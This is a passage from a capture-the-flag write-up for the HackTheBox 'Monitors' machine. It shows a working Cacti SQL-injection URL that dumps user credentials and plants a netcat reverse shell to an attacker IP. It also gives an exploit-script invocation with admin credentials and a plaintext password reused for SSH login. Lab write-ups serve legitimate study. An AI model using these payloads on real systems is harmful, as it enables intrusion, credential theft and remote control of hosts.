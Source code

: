 ```bash
http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1%27)+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value=%27rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.10.103+4444+%3E/tmp/f;%27+where+name=%27path_php_binary%27;--+-
```
And then (ignore the download), requets again this URL
```bash
http://cacti-admin.monitors.htb/cacti/host.php?action=reindex
```

If it doesn't work you can just execute the python script of the exploit in exploitDB

```bash
script.py -t http://cacti-admin .monitors.htb -u admin -p BestAdministrator@2020! --lhost <IP> --lport 4444
```

We grep on "marcus" to see if there is any service related to him.
`grep "marcus" /etc -R 2 >/dev/null`
* **-R**: recursive
* /etc : for config and static files
	
![Pasted image 20210717014035.png](/assets/Pasted%20image%2020210717014035.png)

We see there is a backup.sh service
`/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh`
that executes a script from the /home/marcus directory

We `cat` that file and find

![Pasted image 20210717014424.png](/assets/Pasted%20image%2020210717014424.png)

so the config_pass is the user marcus' password

Let's ssh into marcus with password `VerticalEdge2020`

![Pasted image 20210717014620.png](/assets/Pasted%20image%2020210717014620.png)
